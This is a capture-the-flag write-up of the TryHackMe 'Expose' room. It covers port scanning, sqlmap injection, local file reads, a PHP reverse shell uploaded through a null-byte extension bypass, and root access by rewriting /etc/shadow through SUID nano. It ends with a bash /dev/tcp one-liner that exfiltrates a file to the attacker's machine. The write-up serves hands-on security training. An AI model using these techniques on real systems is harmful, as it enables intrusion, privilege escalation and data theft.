 # Expose
**Completed 02/04/2024** 

https://tryhackme.com/room/expose

**Devices:** 
My Kali VM: 10.6.23.137 
Expose VM: 10.10.209.238 

**Flags:** 
1. /home/zeamkish/flag.txt: THM{USER_FLAG_1231_EXPOSE}
2. /root/flag.txt: THM{ROOT_EXPOSED_1001}

# **Recon**
## nmap 
- Nmap
- Ran `nmap -sT -p- 10.10.209.238` to check open ports
	- -p- checks all ports (1-65535)
- Found ports 21, 22, 53, 1337, and 1883 open
- Refining the scan with `nmap -sT -sV -p 21,22,53,1337,1883 10.10.209.238` reveals running services
- Port 1337/tcp is running an Apache web server
## gobuster
- Running `gobuster dir -u http://10.10.209.238:1337 -w /usr/share/wordlists/dirb/big.txt` gives initial URLs to check
- Found `/admin_101`, `/admin`, and `/phpmyadmin` from the scan

# **User Flag**
- Navigating to `http://10.10.209.238:1337/admin_101` reveals a login form with the email already filled in as `hacker@root.thm`
## SQL Injection
- The CTF specifically lists sqlmap as a provided tool, so let's check for SQLi vulnerabilities
- We submit a random password and capture the request in Burp Suite for analysis
- Right click > Save item, save in challenge folder as `req` (or any other name)
### sqlmap
- Run `sqlmap -r req --dump` to automatically run a scan using info from the request itself
- Say yes to limiting tests to MySQL-specific ones only
- When a hashed password is found, say yes to brute forcing it, revealing the password `easytohack`
- ASCII tables will be output near the end showing the located information from the SQLi attacks
- `/file1010111/index.php` uses `easytohack` as its password
- `/upload-cv00101011/index.php` requires a username starting with Z
## Query Parameter Injection
- Upon visiting `/file1010111/index.php` we are told to fuzz for parameters
- Checking the page source, there is a hint to use `file` or `view` as GET parameters
- If we add `?file=/etc/passwd` to the end of the URL, the contents are output on the page, revealing a user named `zeamkish`
- We can now go to `/upload-cv00101011/index.php` and provide the password of `zeamkish`
## PHP Reverse Shell
### Uploading the reverse shell
- There is a file upload prompt, and checking the page source reveals that only .png and .jpg files are accepted. We want a PHP Reverse Shell, so it's time to experiment
- Uploading a normal .png file leads to a page telling us to check the page source for the location that it was uploaded to, which is provided as `/upload_thm_1001`
- Navigating to `/upload-cv00101011/upload_thm_1001` reveals a file tree including the uploaded image, which we can view
- Next, I made a copy of `/usr/share/webshells/php/php_reverse_shell.php` (PHP Reverse Shell) in my CTF directory, and renamed it to `shell.phpD.png`
	- I set the target IP to my own and the port to 53 since it is unlikely to be blocked by outbound firewalls
	- I chose the file for upload, set Burp Suite proxy to intercept, and clicked the upload button
	- With the request in Burp Suite, I replaced the 'D' in the file name with a null byte (hex 00, ignoring the .png afterwards), and forwarded the request along
	- The file uploads successfully, and it is visible in `/upload_thm_1001`
### Using the reverse shell
- I set up a listener with `nc -lvnp 53`, then clicked on the `shell.php` file on the page
	- The reverse shell runs and netcat catches the connection, giving us shell access
	- I ran `python3 -c 'import pty; pty.spawn("/bin/bash")'`, upgrading to a better shell environment
	- Running `whoami` reveals that I am currently the www-data user
## Getting the flag
- `ls /home/zeamkish` reveals two files: `flag.txt` and `ssh_cred.txt`
- flag.txt is inaccessible to this user, but ssh_cred.txt reveals the SSH password for zeamkish is `easytohack@123`
- With credentials in hand, I ran `ssh zeamkish@10.10.209.238` and logged into the zeamkish user account
    - `cat flag.txt` reveals the first flag, THM{USER_FLAG_1231_EXPOSE}
    
# **Root Flag**
## Privilege Escalation
- The only remaining flag is the root flag, so privilege escalation is necessary
    - `find / -perm -04000 -type f -ls 2>/dev/null` reveals programs that have their SUID set in useful ways
    - nano is in the list, which means we can both read _and write_ files with root privileges
    - I used `nano /etc/shadow` to check that I could edit a file outside of zeamkish's privileges, and it opened successfully
### Injecting a new password hash
- A rather aggressive method if privilege escalation in this case is to use openssl to create a new salted root password and insert it into `/etc/shadow`
    - Running `openssl passwd -1 -salt root 1234` outputs `$1$root$.fAWE/htZAqQge.bvM16O/`
    - We can use nano to open the shadow file again, replacing everything after "root:" and before ":xxxxx:0:xxxxx:x ::::" with the new value
- The root user now has the password `1234`, so we can login easily
    - I ran `su root` and entered the new password, logging in successfully
    - I was now under `/root/` and could use `cat flag.txt` to reveal the final flag, THM{ROOT_EXPOSED_1001}


# **Lessons Learned**
- Use `-p-` and different scan modes with nmap to ensure all relevant ports are located
    - I did not find port 1337 initially, which led me on a useless path trying to do something with FTP on port 21
    - Remember to also use `-sV` with specific ports of interest afterwards to enumerate running services
     - 
- Remember to use gobuster or other directory enumeration tools to check subdirectories after the root scan
    - May not find much of interest, may add tons of useful info
    - 
- Using Burp Suite to intercept all kinds of requests can come in handy
    - At the very least, it allows requests to be analyzed for anything unusual or exploitable
    - A saved request can be used to run sqlmap extremely easily
    - If a file uploader only accepts certain file extensions and we want to upload a malicious payload, name the file as `<name>`.`<invalid_ext>`X`valid_ext` (i.e. `shell.phpX.png`), intercept the HTTP POST request, set the X to a null byte (hex code 00), then forward it
	 - 
	
- Use [gtfobins](https://gtfobins.github.io/) to find privilege escalation vectors
    - Base searches off of output of `find / -perm -04000 -type f -ls 2>/dev/null`
    - If nano is in that list, you get the power to change anything you want
	- 
- Basic data exfiltration can be done through Bash
    - Set up a listener on port 80 with `nc -lvnp 80 > FILENAME` on the local machine (or proxy, whatever you have access to for exfiltration)
    - Run `bash -c 'echo -e "POST / HTTP/0.9\n\n$(<flag.txt)" > /dev/tcp/RHOST/RPORT` on the compromised machine
	    - (`RHOST` = 10.6.23.137 and `RPORT` = 80 in this case)
    - The target will send the file data as the body of an HTTP POST request, which your netcat listener receives and outputs to a new local file